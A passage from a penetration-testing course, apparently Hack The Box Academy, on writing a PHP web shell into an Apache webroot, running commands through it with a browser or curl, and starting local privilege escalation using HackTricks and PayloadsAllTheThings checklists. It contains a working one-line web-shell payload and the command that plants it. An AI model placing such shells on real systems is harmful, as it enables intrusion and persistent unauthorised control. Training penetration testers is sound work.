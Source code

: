 We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

```

* * *

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

![UID, GID, and groups set to www-data.](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

Another option is to use `cURL`:

```shell
curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on `80` or `443`, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.

On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a `Python` script to automate this process and give us a semi-interactive web shell right within our terminal.


# Privilege Escalation

* * *

Our initial access to a remote server is usually in the context of a low-privileged user, which would not give us complete access over the box. To gain full access, we will need to find an internal/local vulnerability that would escalate our privileges to the `root` user on `Linux` or the `administrator`/ `SYSTEM` user on `Windows`. Let us walk through some common methods of escalating our privileges.

* * *

## PrivEsc Checklists

Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets online that have a collection of checks we can run and the commands to run these checks. One excellent resource is [HackTricks](https://book.hacktricks.xyz), which has an excellent checklist for both [Linux](https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html) and [Windows](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html) local privilege escalation. Another excellent repository is [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), which also has checklists for both [Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and [Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md). We must start experimenting with various commands and techniques and get familiar with them to understand multiple weaknesses that can lead to escalating our privileges.
